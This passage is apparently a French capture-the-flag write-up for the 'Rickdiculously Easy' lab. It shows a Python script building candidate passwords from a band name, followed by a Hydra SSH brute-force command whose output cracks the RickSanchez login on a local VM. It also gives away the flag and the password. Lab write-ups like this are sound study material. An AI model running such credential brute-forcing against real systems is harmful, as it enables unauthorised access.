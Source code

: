 
***Identification du Flag n°7***
`FLAG{And Awwwaaaaayyyy we Go!} - 20 Points`

Petite enquette en OSINT pour trouver le nom du groupe de Rick.



![](https://image.noelshack.com/fichiers/2022/23/3/1654681073-20220698-111620.png)


Generation du mot des mots de passe candidat

***Script de géneration des mots de passe***
```python
└─$ cat passwordMaker.py 
import string

band_name = "The Flesh Curtains"

for letter in string.ascii_uppercase:
        for digit in range(0,10):
                for word in band_name.split():
                        print(letter+str(digit)+word)
```


Utilisation  d'hydra pour chercher a passer en SSH, dans le doute on va tester tous les mots de passe sur `root` et sur `RickSanchez`

```bash
└─$ hydra -L /home/kali/Documents/Cours/Rickdiculously/script/users -P /home/kali/Documents/Cours/Rickdiculously/script/passwords -u -s 22222  10.0.2.4 ssh -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-07 18:48:08
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1560 login tries (l:2/p:780), ~390 tries per task
[DATA] attacking ssh://10.0.2.4:22222/
[STATUS] 58.00 tries/min, 58 tries in 00:01h, 1502 to do in 00:26h, 4 active
[STATUS] 36.00 tries/min, 108 tries in 00:03h, 1452 to do in 00:41h, 4 active
[STATUS] 34.29 tries/min, 240 tries in 00:07h, 1320 to do in 00:39h, 4 active
[STATUS] 32.92 tries/min, 395 tries in 00:12h, 1165 to do in 00:36h, 4 active
[STATUS] 32.47 tries/min, 552 tries in 00:17h, 1008 to do in 00:32h, 4 active
[STATUS] 32.32 tries/min, 711 tries in 00:22h, 849 to do in 00:27h, 4 active
[STATUS] 34.59 tries/min, 934 tries in 00:27h, 626 to do in 00:19h, 4 active
[22222][ssh] host: 10.0.2.4   login: RickSanchez   password: P7Curtains
[STATUS] 38.34 tries/min, 1227 tries in 00:32h, 333 to do in 00:09h, 4 active
[STATUS] 41.27 tries/min, 1527 tries in 00:37h, 33 to do in 00:01h, 4 active
[STATUS] 41.05 tries/min, 1560 tries in 00:38h, 1 to do in 00:01h, 2 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-07 19:26:09
```


Connextion au travers de RickSanchez en ssh
